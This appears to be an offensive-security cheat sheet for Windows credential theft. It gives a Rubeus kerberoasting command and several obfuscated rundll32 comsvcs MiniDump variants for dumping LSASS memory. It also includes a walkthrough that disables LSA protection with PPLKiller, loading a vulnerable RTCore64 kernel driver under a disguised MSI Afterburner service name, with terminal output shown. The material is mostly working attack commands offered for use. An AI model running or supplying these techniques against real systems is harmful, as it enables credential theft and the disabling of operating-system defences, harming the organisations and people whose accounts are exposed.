 - Rubeus
```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```


### Dump LSAS

```
rundll32 comsvcs MiniDump 0<pid> <filename> full
rundll32 comsvcs MiniDump +<pid> <filename> full
rundll32 comsvcs `#+24 <pid> <filename> full
rundll32 comsvcs, `#00000000000000000000024 <pid>  <filename> full
rundll32 "comsvcs"`#+24 <pid> <filename> full
rundll32 comsvcs,`#65560 <pid> <filename> full
```

### LSA Protection

- use PPLKiller https://github.com/RedCursorSecurityConsulting/PPLKiller
1. Open PPLKiller.sln with Visual Studio 2019 and build a Release binary which will be saved in PPLKiller\x64\Release\PPLKiller.exe
2. You'll always want to run `PPLKiller.exe /installDriver` first to install the driver
3. Run an attack like `PPLKiller.exe /disableLSAProtection`
4. Cleanup with `PPLKiller.exe /uninstallDriver`
```powershell
PS C:\users\public\downloads> sc.exe create RTCore64 type= kernel start= auto binPath= c:\users\public\downloads\RTCore64.sys DisplayName= "Micro - Star MSI Afterburner"
net start RTCore64

sc.exe create RTCore64 type= kernel start= auto binPath= c:\users\public\downloads\RTCore64.sys DisplayName= "Micro - Star MSI Afterburner"
[SC] CreateService SUCCESS
PS C:\users\public\downloads> net start RTCore64

The Micro - Star MSI Afterburner service was started successfully.

PS C:\users\public\downloads> Get-Process -Name lsass
Get-Process -Name lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                         
-------  ------    -----      -----     ------     --  -- -----------                                         
   1069      30     5920      17568       1.17    556   0 lsass                                               

PS C:\users\public\downloads> .\pplk /disablePPL 556
.\pplk /disablePPL 556
[*] Device object handle has been obtained
[*] Ntoskrnl base address: FFFFF80535EAD000
[*] PsInitialSystemProcess address: FFFFA78B86461040
[*] Current process address: FFFFA78B89AB3080
PPLKiller version 0.3 by @aceb0nd
[+] Windows Version 1809 Found
```
